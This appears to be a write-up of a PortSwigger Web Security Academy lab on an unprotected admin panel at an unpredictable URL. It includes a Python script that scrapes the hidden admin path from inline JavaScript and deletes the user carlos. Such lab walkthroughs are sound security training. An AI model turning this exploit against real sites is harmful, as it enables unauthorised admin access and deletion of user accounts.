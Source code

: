 # Lab: Unprotected admin functionality with unpredictable URL

This lab has an unprotected admin panel. It's located at an unpredictable location, but the location is disclosed somewhere in the application.

Solve the lab by accessing the admin panel, and using it to delete the user carlos. 

---

We identified the `admin` by viewing the source code of the main page:  
![image](https://github.com/user-attachments/assets/2ae50dd3-2d6e-42ee-b8e7-c903a698975b)  

After accessing the `admin` panel:  
![image](https://github.com/user-attachments/assets/b57ed200-35eb-4fff-bf83-db900978a9c0)  

We deleted the `carlos` user and successfully solved the lab:  
![image](https://github.com/user-attachments/assets/e205e32c-a263-48b4-950f-5fd1867ff486)  


- Exploit:
```python
from bs4 import BeautifulSoup
import re
import requests
import urllib3


urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
session = requests.Session()
url = 'https://0a2d00c7035f67c185dd6206008e0083.web-security-academy.net'


resp = session.get(url, verify=False, proxies=proxies)

soup = BeautifulSoup(resp.text, 'html.parser')

script_tag = soup.find('script', string=lambda text: text and "setAttribute('href'," in text)

match = re.findall(r"setAttribute\('href',\s*'([^']+)'", script_tag.string)
admin_panel_url = ''.join(match)

admin_panel_url = url + admin_panel_url

resp = session.get(admin_panel_url, verify=False, proxies=proxies)

soup = BeautifulSoup(resp.content.decode(), 'html.parser')

delete_link = soup.find('a', href=lambda href: href and 'delete' in href and 'carlos' in href)

delete_url = delete_link['href']

final_url = url + delete_url

resp = session.get(final_url, verify=False, proxies=proxies)

if 'User deleted successfully!' in resp.content.decode():
    print('Lab solved')
```

